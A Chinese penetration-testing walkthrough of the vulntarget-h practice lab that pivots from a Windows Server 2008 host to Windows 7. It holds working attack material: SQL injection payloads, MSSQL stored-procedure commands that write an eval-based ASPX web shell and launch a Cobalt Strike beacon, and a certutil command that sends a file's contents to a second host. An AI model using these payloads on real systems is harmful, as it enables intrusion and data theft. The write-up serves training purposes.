> Vulntarget漏洞靶场
> 
> 项目地址：[https://github.com/crow821/vulntarget](https://github.com/crow821/vulntarget)

## 搭建

+ 详细的搭建教程我这里就不演示了，可以打开下方的链接查看。

+ [vulntarget漏洞靶场系列（八）— vulntarget-h](https://mp.weixin.qq.com/s/AGmqroovR1EZN-QKnpSfDQ)

+ 你也可以通过项目地址的下载链接下载。

+ 链接：[https://pan.baidu.com/s/1sv9qdioNF4PTUliix5HEfg](https://pan.baidu.com/s/1sv9qdioNF4PTUliix5HEfg) 提取码： **2dwq**。

## 开始

> **提示：**
> Windows Server 2008 拥有两个网卡其中网卡3是桥接。该网卡的IP存在问题这里我就把虚拟机桥接模式改成NAT然后再修改回桥接模式。

### Windows Server 2008

#### 信息收集

+ 使用`nmap`找到Windows Server 2008的IP地址。

```bash
┌──(kali㉿kali)-[~/Desktop]
└─$ nmap -sn 192.168.1.1/24
Starting Nmap 7.92 ( https://nmap.org ) at 2022-06-30 04:22 EDT
...
Nmap scan report for WIN-7DSM1JVE9PO (192.168.1.99)
Host is up (0.0035s latency).
Nmap done: 256 IP addresses (6 hosts up) scanned in 2.82 seconds
```

+ 查看Windows Server 2008开放的端口并使用`nmap`扫描端口是否存在漏洞。

```bash
┌──(kali㉿kali)-[~/Desktop]
└─$ nmap -sV 192.168.1.99 --script=vuln
Starting Nmap 7.92 ( https://nmap.org ) at 2022-06-30 04:30 EDT
Stats: 0:06:42 elapsed; 0 hosts completed (1 up), 1 undergoing Script Scan
Nmap scan report for WIN-7DSM1JVE9PO (192.168.1.99)
Host is up (0.0011s latency).
Not shown: 993 filtered tcp ports (no-response), 2 filtered tcp ports (host-unreach)
PORT      STATE SERVICE            VERSION
80/tcp    open  tcpwrapped
|_http-server-header: Microsoft-IIS/7.5
| http-slowloris-check: 
|   VULNERABLE:
|   Slowloris DOS attack
|     State: LIKELY VULNERABLE
|     IDs:  CVE:CVE-2007-6750
|       Slowloris tries to keep many connections to the target web server open and hold
|       them open as long as possible.  It accomplishes this by opening connections to
|       the target web server and sending a partial request. By doing so, it starves
|       the http server's resources causing Denial Of Service.
|       
|     Disclosure date: 2009-09-17
|     References:
|       http://ha.ckers.org/slowloris/
|_      https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2007-6750
|_http-csrf: Couldn't find any CSRF vulnerabilities.
|_http-dombased-xss: Couldn't find any DOM based XSS.
|_http-stored-xss: Couldn't find any stored XSS vulnerabilities.
135/tcp   open  msrpc              Microsoft Windows RPC
445/tcp   open  microsoft-ds       Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
3389/tcp  open  ssl/ms-wbt-server?
| rdp-vuln-ms12-020: 
|   VULNERABLE:
|   MS12-020 Remote Desktop Protocol Denial Of Service Vulnerability
|     State: VULNERABLE
|     IDs:  CVE:CVE-2012-0152
|     Risk factor: Medium  CVSSv2: 4.3 (MEDIUM) (AV:N/AC:M/Au:N/C:N/I:N/A:P)
|           Remote Desktop Protocol vulnerability that could allow remote attackers to cause a denial of service.
|           
|     Disclosure date: 2012-03-13
|     References:
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2012-0152
|       http://technet.microsoft.com/en-us/security/bulletin/ms12-020
|   
|   MS12-020 Remote Desktop Protocol Remote Code Execution Vulnerability
|     State: VULNERABLE
|     IDs:  CVE:CVE-2012-0002
|     Risk factor: High  CVSSv2: 9.3 (HIGH) (AV:N/AC:M/Au:N/C:C/I:C/A:C)
|           Remote Desktop Protocol vulnerability that could allow remote attackers to execute arbitrary code on the targeted system.
|           
|     Disclosure date: 2012-03-13
|     References:
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2012-0002
|_      http://technet.microsoft.com/en-us/security/bulletin/ms12-020
|_ssl-ccs-injection: No reply from server (TIMEOUT)
49154/tcp open  unknown
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Host script results:
|_smb-vuln-ms10-061: NT_STATUS_ACCESS_DENIED
|_samba-vuln-cve-2012-1182: Could not negotiate a connection:SMB: Failed to receive bytes: EOF
|_smb-vuln-ms10-054: false

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 554.63 seconds
```

+ 通过上面的返回结果我们可以发现多个漏洞，接下来我们就使用`msfconsole`的漏洞利用模块验证是否可以使用。

> CVE-2007-6750 该漏洞不属于IIS服务。
> CVE-2012-0152
> 
> CVE-2012-0002
> 
> + 这里一共搜索到两个模块。
> 
> ```bash
> msf6 > search ms12-020
> 
> Matching Modules
> ================
> 
>    #  Name                                              Disclosure Date  Rank    Check  Description
>    -  ----                                              ---------------  ----    -----  -----------
>    0  auxiliary/scanner/rdp/ms12_020_check                               normal  Yes    MS12-020 Microsoft Remote Desktop Checker
>    1  auxiliary/dos/windows/rdp/ms12_020_maxchannelids  2012-03-16       normal  No     MS12-020 Microsoft Remote Desktop Use-After-Free DoS
> 
> 
> Interact with a module by name or index. For example info 1, use 1 or use auxiliary/dos/windows/rdp/ms12_020_maxchannelids
> ```
> 
> 使用`auxiliary/scanner/rdp/ms12_020_check`模块。
> 
> ```bash
> msf6 > use auxiliary/scanner/rdp/ms12_020_check
> msf6 auxiliary(scanner/rdp/ms12_020_check) > set rhosts 192.168.1.99
> rhosts => 192.168.1.99
> msf6 auxiliary(scanner/rdp/ms12_020_check) > exploit 
> 
> [+] 192.168.1.99:3389     - 192.168.1.99:3389 - The target is vulnerable.
> [*] 192.168.1.99:3389     - Scanned 1 of 1 hosts (100% complete)
> [*] Auxiliary module execution completed
> ```
> 
> 这里显示**The target is vulnerable.（目标很脆弱。）**，但是我找到该漏洞的exp并不能对目标造成影响。接下来我们继续尝试另外一个模块。
> 
> 使用`auxiliary/dos/windows/rdp/ms12_020_maxchannelids`模块。
> 
> ```bash
> msf6 auxiliary(scanner/rdp/ms12_020_check) > use auxiliary/dos/windows/rdp/ms12_020_maxchannelids
> msf6 auxiliary(dos/windows/rdp/ms12_020_maxchannelids) > set rhosts 192.168.1.99
> rhosts => 192.168.1.99
> msf6 auxiliary(dos/windows/rdp/ms12_020_maxchannelids) > exploit 
> [*] Running module against 192.168.1.99
> 
> [*] 192.168.1.99:3389 - 192.168.1.99:3389 - Sending MS12-020 Microsoft Remote Desktop Use-After-Free DoS
> [*] 192.168.1.99:3389 - 192.168.1.99:3389 - 210 bytes sent
> [*] 192.168.1.99:3389 - 192.168.1.99:3389 - Checking RDP status...（RDP 服务无法访问）
> [-] 192.168.1.99:3389 - 192.168.1.99:3389 - RDP Service Unreachable
> [*] Auxiliary module execution completed
> ```
> 
> 该模块也不能正常运行。接下来只能尝试其他端口。

+ 使用`nikto`。并没有发现特别的信息。只能用浏览器打开看看能不能找到有用的数据了。

```bash
┌──(kali㉿kali)-[~/Desktop]
└─$ nikto -host http://192.168.1.99
- Nikto v2.1.6
---------------------------------------------------------------------------
+ Target IP:          192.168.1.99
+ Target Hostname:    192.168.1.99
+ Target Port:        80
+ Start Time:         2022-06-30 05:33:14 (GMT-4)
---------------------------------------------------------------------------
+ Server: Microsoft-IIS/7.5
+ Retrieved x-aspnet-version header: 2.0.50727
+ Retrieved x-powered-by header: ASP.NET
+ The anti-clickjacking X-Frame-Options header is not present.
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ No CGI Directories found (use '-C all' to force check all possible dirs)
+ Allowed HTTP Methods: OPTIONS, TRACE, GET, HEAD, POST 
+ Public HTTP Methods: OPTIONS, TRACE, GET, HEAD, POST 
+ 8068 requests: 0 error(s) and 7 item(s) reported on remote host
+ End Time:           2022-06-30 05:34:13 (GMT-4) (59 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested
```

+ 使用`dirb`并没有发现有用的数据。

```bash
┌──(kali㉿kali)-[~/Desktop]
└─$ dirb http://192.168.1.99

-----------------
DIRB v2.22    
By The Dark Raver
-----------------

START_TIME: Thu Jun 30 06:03:46 2022
URL_BASE: http://192.168.1.99/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

-----------------

GENERATED WORDS: 4612                                                          

---- Scanning URL: http://192.168.1.99/ ----
+ http://192.168.1.99/reports (CODE:401|SIZE:0)                                                                                                            

-----------------
END_TIME: Thu Jun 30 06:03:49 2022
DOWNLOADED: 4612 - FOUND: 1
```

+ 打开发现网站提示我们该网站存在SQL注入。


+ 判断该网站是否存在SQL注入。存在数字型注入。

> http://192.168.1.99/?user_id=1%20and%201=2


+ 获取当前用户信息。

```bash
# 判断是否是SA权限
?user_id=-1%20union%20select%200,1,2,is_srvrolemember('sysadmin'),4
# 判断是否是db_owner权限
?user_id=-1%20union%20select%200,1,2,is_member('db_owner'),4
# 判断是否是public权限
?user_id=-1%20union%20select%200,1,2,is_srvrolemember('public'),4
```

+ 接下来使用`sqlmap`尝试是否能获取shell。但是无法反弹shell应该是被杀毒程序拦截。

```bash
┌──(kali㉿kali)-[~/Desktop]
└─$ sqlmap "http://192.168.1.99/?user_id=1" --os-shell
        ___
       __H__                                                                                                                                                
 ___ ___[']_____ ___ ___  {1.6.6#stable}                                                                                                                    
|_ -| . [']     | .'| . |                                                                                                                                   
|___|_  [']_|_|_|__,|  _|                                                                                                                                   
      |_|V...       |_|   https://sqlmap.org                                                                                                                

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 06:05:41 /2022-06-30/

[06:05:42] [INFO] resuming back-end DBMS 'microsoft sql server' 
...
[06:09:00] [CRITICAL] connection timed out to the target URL

[*] ending @ 06:09:00 /2022-06-30/
```

#### 写入shell

> - 自动化不能使用只能靠手动了。利用`--sql-shell`是执行数据库语句。
> 
> ```bash
> ┌──(kali㉿kali)-[~/Desktop]
> └─$ sqlmap "http://192.168.1.99?user_id=1"  --sql-shell
>         ___
>        __H__                                                                                                                                                
>  ___ ___[,]_____ ___ ___  {1.6.6#stable}                                                                                                                    
> |_ -| . [(]     | .'| . |                                                                                                                                   
> |___|_  [,]_|_|_|__,|  _|                                                                                                                                   
>       |_|V...       |_|   https://sqlmap.org                                                                                                                
> 
> [!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program
> 
> [*] starting @ 06:44:35 /2022-06-30/
> ...
> [06:44:35] [INFO] the back-end DBMS is Microsoft SQL Server
> web server operating system: Windows 7 or 2008 R2
> web application technology: ASP.NET 2.0.50727, Microsoft IIS 7.5, ASP.NET
> back-end DBMS: Microsoft SQL Server 2008
> [06:44:35] [INFO] calling Microsoft SQL Server shell. To quit type 'x' or 'q' and press ENTER
> sql-shell> 
> ```
> 
> ##### 找出网站根目录。
> 
> + 首先要开启sp_oacareate这个存储过程。
> 
> ```bash
> sql-shell> exec sp_configure 'show advanced options', 1;RECONFIGURE;
> [09:26:05] [INFO] executing SQL data execution statement: 'exec sp_configure 'show advanced options', 1;RECONFIGURE'
> exec sp_configure 'show advanced options', 1;RECONFIGURE: 'NULL'
> sql-shell> exec sp_configure 'Ole Automation Procedures',1;RECONFIGURE;
> [09:26:11] [INFO] executing SQL data execution statement: 'exec sp_configure 'Ole Automation Procedures',1;RECONFIGURE'
> exec sp_configure 'Ole Automation Procedures',1;RECONFIGURE: 'NULL'
> ```
> 
> + 先创建一个tmp表然后将xp_dirtree的结果输出到tmp中。
> 
> + 添加数据到tmp表中。这里我们先从IIS默认路径开始。
> 
> ```bash
> CREATE TABLE tmp (dir varchar(8000),num int,num1 int);
> insert into tmp(dir,num,num1) execute master..xp_dirtree 'c:\inetpub\',1,1;
> ```
> 
> 
> 
> + 使用`sqlmap`查看刚才插入的数据。
> 
> ```bash
> ┌──(kali㉿kali)-[~/Desktop]
> └─$ sqlmap "http://192.168.1.99?user_id=1" -D "FoundStone_Bank" -T "tmp" -C "dir" --dump --flush-session
>         ___
>        __H__                                                                                                                                                
>  ___ ___[']_____ ___ ___  {1.6.6#stable}                                                                                                                    
> |_ -| . [,]     | .'| . |                                                                                                                                   
> |___|_  [(]_|_|_|__,|  _|                                                                                                                                   
>       |_|V...       |_|   https://sqlmap.org                                                                                                                
> 
> [!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program
> 
> [*] starting @ 10:10:47 /2022-06-30/
> 
> [10:10:47] [INFO] flushing session file
> ...
> Database: FoundStone_Bank
> Table: tmp
> [6 entries]
> +----------------+
> | dir            |
> +----------------+
> | custerr        |
> | edrfgyhujikopl |
> | history        |
> | logs           |
> | temp           |
> | wwwroot        |
> +----------------+
> 
> [10:11:27] [INFO] table 'FoundStone_Bank.dbo.tmp' dumped to CSV file '/home/kali/.local/share/sqlmap/output/192.168.1.99/dump/FoundStone_Bank/tmp.csv'
> [10:11:27] [WARNING] HTTP error codes detected during run:
> 500 (Internal Server Error) - 61 times
> [10:11:27] [INFO] fetched data logged to text files under '/home/kali/.local/share/sqlmap/output/192.168.1.99'
> 
> [*] ending @ 10:11:27 /2022-06-30/
> ```
> 
> ##### 将shell写入网站根目录。
> 
> + 从上面的结果发现有一个比较特别的目录。接下来我们尝试在该目录写入shell。这里我们先做一下免杀防止被删除，我就不把免杀的shell放出来了。
> 
> ```bash
> http://192.168.1.99/index.aspx?user_id=1;
> declare @f int,@g int;
> exec sp_oacreate 'Scripting.FileSystemObject',@f output;
> EXEC SP_OAMETHOD @f,'CreateTextFile',@f OUTPUT,'c:\inetpub\edrfgyhujikopl\shell.aspx',1;
> EXEC sp_oamethod  @f,'WriteLine',null,'<%@ Page Language="Jscript"%><%var a = "un";var b = "safe";Response.Write(eval(Request.Item["z"],a%2Bb));%>';
> ```
> 
> + 使用蚁剑链接上我们刚才上传的shell。
> 
> 
> 
> ##### 提升权限
> 
> + 使用CS生存木马然后免杀上传的服务器，然后利用`sqlps.exe`执行命令刚才上传的木马。
> 
> ```bash
> http://192.168.1.99/?user_id=1;
> declare @o int;
> exec sp_oacreate 'wscript.shell',@o out;
> exec sp_oamethod @o,'run',null,'sqlps C:\inetpub\edrfgyhujikopl\beacona.exe';
> ```
> 
> + 上线成功。
> 
> 
> 
> > 上面教程参考于：[MSSQL注入绕过360执行命令](https://macchiato.ink/web/web_security/mssql_bypass/#0x03-%E6%9D%83%E9%99%90%E6%8F%90%E5%8D%87)
> 
> + 抓取Windows Server 2008密码。
> 
> 
> 
> + 开启代理移动到Windows 7。

### Windows 7

> 由于本文章头开已经知道Windows 7的IP地址这里我就越过扫描192.168.153.0/24这个网段。

#### 信息收集

+ 查看Windows 7开放的端口。

```bash
┌──(kali㉿kali)-[~/Downloads]
└─$ proxychains4 nmap -sV 192.168.153.128              
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.16
Starting Nmap 7.92 ( https://nmap.org ) at 2022-07-01 05:56 EDT
[proxychains] Strict chain  ...  127.0.0.1:23869  ...  192.168.153.128:80  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:23869  ...  192.168.153.128:53 <--denied
[proxychains] Strict chain  ...  127.0.0.1:23869  ...  192.168.153.128:1025 <--denied
[proxychains] Strict chain  ...  127.0.0.1:23869  ...  192.168.153.128:5900 <--denied
[proxychains] Strict chain  ...  127.0.0.1:23869  ...  192.168.153.128:554 <--denied
[proxychains] Strict chain  ...  127.0.0.1:23869  ...  192.168.153.128:113 <--denied
[proxychains] Strict chain  ...  127.0.0.1:23869  ...  192.168.153.128:1720 <--denied
[proxychains] Strict chain  ...  127.0.0.1:23869  ...  192.168.153.128:25 <--denied
...
Nmap scan report for 192.168.153.128
Host is up (1.1s latency).
Not shown: 988 closed tcp ports (conn-refused)
PORT      STATE SERVICE            VERSION
80/tcp    open  http               Apache httpd 2.4.39 ((Win64) OpenSSL/1.1.1b mod_fcgid/2.3.9a mod_log_rotate/1.02)
135/tcp   open  msrpc              Microsoft Windows RPC
139/tcp   open  netbios-ssn        Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds       Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
3389/tcp  open  ssl/ms-wbt-server?
5357/tcp  open  http               Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
49152/tcp open  msrpc              Microsoft Windows RPC
49153/tcp open  msrpc              Microsoft Windows RPC
49154/tcp open  msrpc              Microsoft Windows RPC
49155/tcp open  msrpc              Microsoft Windows RPC
49156/tcp open  msrpc              Microsoft Windows RPC
49158/tcp open  msrpc              Microsoft Windows RPC
Service Info: Host: WIN-HF4NQED9HKF; OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 1213.51 seconds
```

+ 使用`nmap`扫描开放端口是否存在漏洞。

```bash
┌──(kali㉿kali)-[~/Downloads]
└─$ proxychains4 nmap -sV 192.168.153.128 -p80,135,139,445,3389,5357,49152-49158 --script=vuln
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.16
Starting Nmap 7.92 ( https://nmap.org ) at 2022-07-02 02:13 EDT
[proxychains] Strict chain  ...  127.0.0.1:45483  ...  192.168.153.128:80  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:45483  ...  192.168.153.128:445  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:45483  ...  192.168.153.128:3389  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:45483  ...  192.168.153.128:135  ...  OK
...
Nmap scan report for 192.168.153.128
Host is up (1.6s latency).

PORT      STATE  SERVICE        VERSION
80/tcp    open   http           Apache/2.4.39 (Win64) OpenSSL/1.1.1b mod_fcgid/2.3.9a mod_log_rotate/1.02
|_http-trace: TRACE is enabled
|_http-server-header: Apache/2.4.39 (Win64) OpenSSL/1.1.1b mod_fcgid/2.3.9a mod_log_rotate/1.02
|_http-stored-xss: Couldn't find any stored XSS vulnerabilities.
|_http-csrf: Couldn't find any CSRF vulnerabilities.
|_http-dombased-xss: Couldn't find any DOM based XSS.
135/tcp   open   msrpc?
139/tcp   open   netbios-ssn?
445/tcp   open   microsoft-ds?
3389/tcp  open   ms-wbt-server?
| rdp-vuln-ms12-020: 
|   VULNERABLE:
|   MS12-020 Remote Desktop Protocol Denial Of Service Vulnerability
|     State: VULNERABLE
|     IDs:  CVE:CVE-2012-0152
|     Risk factor: Medium  CVSSv2: 4.3 (MEDIUM) (AV:N/AC:M/Au:N/C:N/I:N/A:P)
|           Remote Desktop Protocol vulnerability that could allow remote attackers to cause a denial of service.
|           
|     Disclosure date: 2012-03-13
|     References:
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2012-0152
|       http://technet.microsoft.com/en-us/security/bulletin/ms12-020
|   
|   MS12-020 Remote Desktop Protocol Remote Code Execution Vulnerability
|     State: VULNERABLE
|     IDs:  CVE:CVE-2012-0002
|     Risk factor: High  CVSSv2: 9.3 (HIGH) (AV:N/AC:M/Au:N/C:C/I:C/A:C)
|           Remote Desktop Protocol vulnerability that could allow remote attackers to execute arbitrary code on the targeted system.
|           
|     Disclosure date: 2012-03-13
|     References:
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2012-0002
|_      http://technet.microsoft.com/en-us/security/bulletin/ms12-020
|_ssl-ccs-injection: No reply from server (TIMEOUT)
5357/tcp  open   wsdapi?
49152/tcp open   unknown
49153/tcp open   unknown
49154/tcp open   unknown
49155/tcp open   unknown
49156/tcp open   unknown
49157/tcp closed unknown
49158/tcp open   unknown

Host script results:
|_smb-vuln-ms10-061: NT_STATUS_ACCESS_DENIED
|_samba-vuln-cve-2012-1182: NT_STATUS_ACCESS_DENIED
|_smb-vuln-ms10-054: false

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 1188.52 seconds
```

- 通过上面的返回结果我们可以发现这里和Windows Server 2008有相同的漏洞，接下来我们就使用`msfconsole`的漏洞利用模块验证是否可以使用。

> CVE-2012-0152
> 
> CVE-2012-0002
> 
> - 这里一共搜索到两个模块。
> 
> ```bash
> ┌──(kali㉿kali)-[~/Downloads]
> └─$ proxychains4 msfconsole                                                                   
> [proxychains] config file found: /etc/proxychains4.conf
> [proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
> [proxychains] DLL init: proxychains-ng 4.16
> msf6 > search ms12-020
> 
> Matching Modules
> ================
> 
>    #  Name                                              Disclosure Date  Rank    Check  Description
>    -  ----                                              ---------------  ----    -----  -----------
>    0  auxiliary/scanner/rdp/ms12_020_check                               normal  Yes    MS12-020 Microsoft Remote Desktop Checker
>    1  auxiliary/dos/windows/rdp/ms12_020_maxchannelids  2012-03-16       normal  No     MS12-020 Microsoft Remote Desktop Use-After-Free DoS
> 
> 
> Interact with a module by name or index. For example info 1, use 1 or use auxiliary/dos/windows/rdp/ms12_020_maxchannelids
> ```
> 
> 使用`auxiliary/scanner/rdp/ms12_020_check`模块。
> 
> ```bash
> msf6 > use auxiliary/scanner/rdp/ms12_020_check
> msf6 auxiliary(scanner/rdp/ms12_020_check) > set rhosts 192.168.153.128
> rhosts => 192.168.153.128
> msf6 auxiliary(scanner/rdp/ms12_020_check) > exploit 
> 
> [proxychains] Strict chain  ...  127.0.0.1:45483  ...  192.168.153.128:3389  ...  OK
> 
> [+] 192.168.153.128:3389  - 192.168.153.128:3389 - The target is vulnerable.
> [*] 192.168.153.128:3389  - Scanned 1 of 1 hosts (100% complete)
> [*] Auxiliary module execution completed
> ```
> 
> 这里显示**The target is vulnerable.（目标很脆弱。）**，但是我找到该漏洞的exp并不能对目标造成影响。接下来我们继续尝试另外一个模块。
> 
> 使用`auxiliary/dos/windows/rdp/ms12_020_maxchannelids`模块。
> 
> ```bash
> msf6 auxiliary(scanner/rdp/ms12_020_check) > use auxiliary/dos/windows/rdp/ms12_020_maxchannelids
> msf6 auxiliary(dos/windows/rdp/ms12_020_maxchannelids) > set rhosts 192.168.153.128
> [proxychains] DLL init: proxychains-ng 4.16
> rhosts => 192.168.153.128
> msf6 auxiliary(dos/windows/rdp/ms12_020_maxchannelids) > exploit 
> [*] Running module against 192.168.153.128
> [proxychains] Strict chain  ...  127.0.0.1:45483  ...  192.168.153.128:3389  ...  OK
> [proxychains] Strict chain  ...  127.0.0.1:45483  ...  192.168.153.128:3389  ...  OK
> 
> [*] 192.168.153.128:3389 - 192.168.153.128:3389 - Sending MS12-020 Microsoft Remote Desktop Use-After-Free DoS
> [*] 192.168.153.128:3389 - 192.168.153.128:3389 - 210 bytes sent
> [*] 192.168.153.128:3389 - 192.168.153.128:3389 - Checking RDP status...
> [proxychains] Strict chain  ...  127.0.0.1:45483  ...  192.168.153.128:3389  ...  OK
> [-] 192.168.153.128:3389 - 192.168.153.128:3389 - RDP Service Unreachable
> [*] Auxiliary module execution completed
> ```
> 
> 该模块也不能正常运行。接下来只能尝试其他端口。

- 使用`nikto`。并没有发现特别的信息。只能用浏览器打开看看能不能找到有用的数据了。

```bash
┌──(kali㉿kali)-[~/Downloads]
└─$ proxychains4 nikto -host http://192.168.153.128
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.16
[proxychains] DLL init: proxychains-ng 4.16
- Nikto v2.1.6
---------------------------------------------------------------------------
[proxychains] Strict chain  ...  127.0.0.1:45483  ...  192.168.153.128:80  ...  OK
+ Target IP:          192.168.153.128
+ Target Hostname:    192.168.153.128
+ Target Port:        80
+ Start Time:         2022-07-02 02:33:39 (GMT-4)
---------------------------------------------------------------------------
+ Server: Apache/2.4.39 (Win64) OpenSSL/1.1.1b mod_fcgid/2.3.9a mod_log_rotate/1.02
+ Retrieved x-powered-by header: PHP/7.3.4
+ The anti-clickjacking X-Frame-Options header is not present.
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
[proxychains] Strict chain  ...  127.0.0.1:45483  ...  192.168.153.128:80  ...  OK
+ Web Server returns a valid response with junk HTTP methods, this may cause false positives.
+ OSVDB-877: HTTP TRACE method is active, suggesting the host is vulnerable to XST
- STATUS: Completed 3190 requests (~46% complete, 16.6 minutes left): currently in plugin 'Nikto Tests'
- STATUS: Running average: 100 requests: 0.22830 sec, 10 requests: 0.1804 sec.
+ Scan terminated:  12 error(s) and 7 item(s) reported on remote host
+ End Time:           2022-07-02 03:13:08 (GMT-4) (2369 seconds)
```

#### 上传木马

+ 使用浏览器查看网页是否有对我们有用的信息。(需要把火狐浏览器代理模式设置成系统代理)

```bash
┌──(kali㉿kali)-[~/Downloads]
└─$ proxychains4 firefox 192.168.153.128
```


+ 从上面的返回的结果我们可以看到这是需要我们通过命令注入查看`c:\phpstudy_pro\COM\a.txt`文件的内容。由于这里使用`exec`函数并没有返回数据。

+ 我们先尝试能不能在当前目录写入文件。发现并不可以。

```bash
┌──(kali㉿kali)-[~/Downloads]
└─$ proxychains4 curl 192.168.153.128 -d "shell=echo '<?php phpinfo();?>'>l.php"
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.16
[proxychains] Strict chain  ...  127.0.0.1:45483  ...  192.168.153.128:80  ...  OK
<code><span style="color: #000000">
<br /></span><span style="color: #0000BB">exec</span><span style="color: #007700">(</span><span style="color: #0000BB">$_POST</span><span style="color: #007<br /></span><span style="color: #0000BB">?></span>小子留下了一个后门，读一下c:\phpstudy_pro\COM\a.txt吧里面有好东西
</span>
</code>         

┌──(kali㉿kali)-[~/Downloads]
└─$ proxychains4 curl 192.168.153.128/l.php                                     
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.16
[proxychains] Strict chain  ...  127.0.0.1:45483  ...  192.168.153.128:80  ...  OK
<!DOCTYPE html>
<html lang="zh-CN">
<head>
  <meta charset="utf-8">
  <title>404 错误 - phpstudy</title>
  ...
</head>
...
</html>
```

> + 接下来只能尝试使用`certutil`请求Windows Server 2008的开放的80端口（由于Windows 7不出网Windows Sever 2008刚好开放了80端口我们又有Windows Server 2008的权限，我们可以通过查看Windows Server 2008的IIS请求日志）。
> 
> ```bash
> ┌──(kali㉿kali)-[~/Downloads]
> └─$ proxychains4 curl 192.168.153.128 -d "shell=for /f %i in ('type c:\phpstudy_pro\COM\a.txt') do certutil -urlcache  -split -f http://192.168.153.130/aaa/%i"
> [proxychains] config file found: /etc/proxychains4.conf
> [proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
> [proxychains] DLL init: proxychains-ng 4.16
> [proxychains] Strict chain  ...  127.0.0.1:45483  ...  192.168.153.128:80  ...  OK
> <code><span style="color: #000000">
> <br /></span><span style="color: #0000BB">exec</span><span style="color: #007700">(</span><span style="color: #0000BB">$_POST</span><span style="color: #007<br /></span><span style="color: #0000BB">?></span>小子留下了一个后门，读一下c:\phpstudy_pro\COM\a.txt吧里面有好东西
> </span>
> </code>
> ```
> 
> + 查看IIS请求日志（日志文件里面的数据可能会存在延迟）。
> 
> ```bash
> beacon> shell dir C:\inetpub\logs\LogFiles\W3SVC1\
> [*] Tasked beacon to run: dir C:\inetpub\logs\LogFiles\W3SVC1\
> [+] host called home, sent: 67 bytes
> [+] received output:
>  驱动器 C 中的卷没有标签。
>  卷的序列号是 DCD2-557A
> 
>  C:\inetpub\logs\LogFiles\W3SVC1 的目录
> 
> 2022/07/02  12:48    <DIR>          .
> 2022/07/02  12:48    <DIR>          ..
> 2022/03/29  10:21               999 u_ex220329.log
> 2022/07/02  18:10            16,728 u_ex220702.log
>                2 个文件         17,727 字节
>                2 个目录 24,780,013,568 可用字节
> 
> beacon> shell type C:\inetpub\logs\LogFiles\W3SVC1\u_ex220702.log
> [*] Tasked beacon to run: type C:\inetpub\logs\LogFiles\W3SVC1\u_ex220702.log
> [+] host called home, sent: 82 bytes
> [+] received output:
> #Software: Microsoft Internet Information Services 7.5
> #Version: 1.0
> #Date: 2022-07-02 04:48:37
> #Fields: date time s-ip cs-method cs-uri-stem cs-uri-query s-port cs-username c-ip cs(User-Agent) sc-status sc-substatus sc-win32-status time-taken
> ...
> 2022-07-02 10:18:01 192.168.153.130 GET /aaa/dsuijaddjsfvos.php - 80 - 192.168.153.128 CertUtil+URL+Agent 404 0 64 15
> ```
> 
> > 上方教程参考于：[命令执行漏洞[无]回显[不]出网利用技巧](https://cn-sec.com/archives/1129108.html)
> 
> + `dsuijaddjsfvos.php`该就是``c:\phpstudy_pro\COM\a.txt``文件的内容。我们尝试使用`curl`访问一下`dsuijaddjsfvos.php`。
> 
> ```bash
> ┌──(kali㉿kali)-[~/Downloads]
> └─$ proxychains4 curl 192.168.153.128/dsuijaddjsfvos.php
> [proxychains] config file found: /etc/proxychains4.conf
> [proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
> [proxychains] DLL init: proxychains-ng 4.16
> [proxychains] Strict chain  ...  127.0.0.1:45483  ...  192.168.153.128:80  ...  OK
> <code><span style="color: #000000">
